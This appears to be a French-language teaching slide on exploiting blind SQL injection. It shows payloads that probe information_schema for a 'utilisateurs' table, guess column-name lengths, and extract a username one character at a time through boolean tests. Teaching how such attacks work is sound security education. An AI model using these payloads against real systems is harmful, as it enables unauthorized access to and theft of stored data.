

EXPLOITATION DE LA VULNÉRABILITÉ
EXEMPLES DE REQUÊTES SQL MALVEILLANTES
Détection d’une table existante :
id=1' AND (SELECT COUNT(*) FROM information_schema.tables WHERE table_name='utilisateurs') > 0 --
Si la table utilisateurs existe, la page répond différemment.

Récupération du nom d’une colonne :
id=1' AND (SELECT LENGTH(column_name) FROM information_schema.columns WHERE table_name='utilisateurs' LIMIT 1) > 5 --
Cela permet de deviner la longueur des noms de colonnes.

Techniques d’exfiltration de données

Les attaquants peuvent extraire des informations en injectant des requêtes SQL répétées avec des tests booléens ou des délais.
Exemple : Récupération d’un caractère du nom d’utilisateur
id=1' AND ASCII(SUBSTRING((SELECT username FROM utilisateurs LIMIT 1),1,1))=97 --
Si la page répond normalement, cela signifie que le premier caractère du username est a (ASCII 97).